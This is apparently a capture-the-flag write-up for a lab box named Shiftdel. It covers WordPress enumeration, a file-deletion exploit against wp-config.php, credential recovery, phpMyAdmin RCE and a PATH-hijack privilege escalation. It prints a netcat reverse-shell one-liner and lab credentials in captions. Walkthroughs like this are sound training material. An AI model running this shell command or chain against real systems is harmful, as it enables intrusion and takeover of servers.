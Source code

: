 # Shiftdel

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i go and look at the webserver and see that it's running with wordpress:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i launch a wp-scan and find the wordpress version:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after googling we find some interesting stuff:

{% embed url="https://www.exploit-db.com/exploits/50456" %}

{% embed url="https://www.exploit-db.com/exploits/47690" %}

so i'm able to read files and apparently the onboarding page had everything i needed:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>IntraPersonalVision349</p></figcaption></figure>

So i found a password but no username that i'm sure of so i went and looked at my wpscan cheat sheets and tried to find something to enumerate users&#x20;

```
wpscan --url http://192.168.57.174 --enumerate u
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there is not much going on and the account is restrictive so the only way to go must be the version exploit we found earlier ->

While reading the code i'm starting to understand how WTF this box is and why the hell as a pentester should i break the website to get my RCE, maybe this is blackhat training IDK but whatever ->

So i needed to:

```
Usage:
  1. Login to wordpress with privileges of an author
  2. Navigates to Media > Add New > Select Files > Open/Upload
  3. Click Edit > Open Developer Console > Paste this exploit script
  4. Execute the function, eg: unlink_thumb("../../../../wp-config.php")
```

So i start off by uploading a random png to the app and editing it:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i reload and the website is totally screwed:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now i can curl wp-config.php without encoding:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>wordpress:ThinnerATheWaistline348</p></figcaption></figure>

With this i'm able to login in the php my admin instance:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see the version and i can use this exploit:

{% embed url="https://www.exploit-db.com/exploits/50457" %}

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
python2 50457.py 192.168.57.174 8888 / wordpress ThinnerATheWaistline348 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f'
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking thought the linpeas output we spot nothing, maybe some cronjobs that are not default like the wpclean?

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

and looking at the script it's indeed the way to go:

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

the  **`PATH`** environment is vulnerable

* `~/bin` expands to `/var/www/html/wordpress/wp-content/uploads/bin` (where you have write access).
* **This means `rm` is looked up in `~/bin` before `/usr/bin/rm`!**
* If an attacker creates an **executable file named `rm`** inside `~/bin`, it will be executed **instead of the real `/usr/bin/rm`**.

and after waiting for a bit i got my reverse shell:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>
